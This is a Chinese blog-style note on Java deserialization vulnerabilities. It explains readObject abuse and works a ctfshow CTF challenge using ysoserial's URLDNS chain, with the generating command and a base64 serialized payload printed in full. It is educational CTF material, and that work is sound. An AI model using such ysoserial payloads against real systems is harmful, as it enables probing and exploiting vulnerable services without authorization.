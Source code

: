 # JAVA反序列化

<br>

### 序列化调用的函数

序列化：java.io.ObjectOutputStream 类中的 writeObject()
实现 Serializable 和 Externalizable 接口的类才能被序列化

<br>

### 反序列化调用的函数

反序列化：java.io.ObjectInputStream 类中的 readObject()

<br>

在 Java中，重写的方法会优先执行。如果重写了readObject()，并且函数中某个参数的输入可控，那么攻击者就可以输入任意命令(代码)。在反序列化过程中调用readObject()方法时，就会执行恶意命令，造成攻击

<br>

### 课程

- [java反序列化1](https://space.bilibili.com/2142877265/channel/collectiondetail?sid=29805&ctype=0)


- [java反序列化2](https://www.bilibili.com/video/BV16h411z7o9/?spm_id_from=333.999.0.0&vd_source=23c2bbe4623ae526416ea7a1ec4679fc)

<br>

## 例题

<br>

#### URLDNS链

URLDNS链不能执行命令，通常作为验证是否存在反序列化漏洞的一种方式。

脚本 ysoserial.jar

用法

````
java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
````

URLDNS例题        来自ctfshow846

ctfshow会对你post提交的ctfshow参数进行base64解码
然后进行反序列化
构造出对当前题目地址的dns查询即可获得flag 

<img src="https://54huarui.github.io/blogs/javax/x0.png" width="880" height="480">

````
┌──(root💀kali)-[/home/huarui/桌面/java tool]
└─# java -jar ysoserial.jar URLDNS "http://bb7c5da6-cbdd-4585-8c3e-9793141c140f.challenge.ctf.show/"|base64
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVz
aG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFz
aENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgAD
TAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAN2JiN2M1
ZGE2LWNiZGQtNDU4NS04YzNlLTk3OTMxNDFjMTQwZi5jaGFsbGVuZ2UuY3RmLnNob3d0AAEvcQB+
AAV0AARodHRwcHh0AD9odHRwOi8vYmI3YzVkYTYtY2JkZC00NTg1LThjM2UtOTc5MzE0MWMxNDBm
LmNoYWxsZW5nZS5jdGYuc2hvdy94
````

然后将playload输入即可

<img src="https://54huarui.github.io/blogs/javax/javax.png" width="880" height="480">

